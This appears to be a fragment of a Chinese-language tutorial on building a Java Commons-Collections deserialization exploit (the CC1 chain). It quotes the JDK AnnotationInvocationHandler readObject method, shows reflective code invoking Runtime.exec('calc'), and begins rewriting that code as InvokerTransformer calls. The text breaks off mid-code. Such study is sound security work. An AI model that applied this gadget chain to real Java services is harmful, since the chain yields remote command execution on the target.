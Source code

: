 ```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```



因为Runtime类不能序列化,所以需要将其改装为能够序列化,而Class是可以序列化的

**在invoke的时候,如果是静态方法,第一个参数可以为Null**

```java
Class<Runtime> runtimeClass = Runtime.class;
        Method getRuntime = runtimeClass.getMethod("getRuntime", null);
        Object o = (Runtime)getRuntime.invoke(null, null);
        Method exec = runtimeClass.getMethod("exec", String.class);
        exec.invoke(o,"calc");
```

继续将其改装为`InvokerTransformer`中`transform`方法的版本

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
```
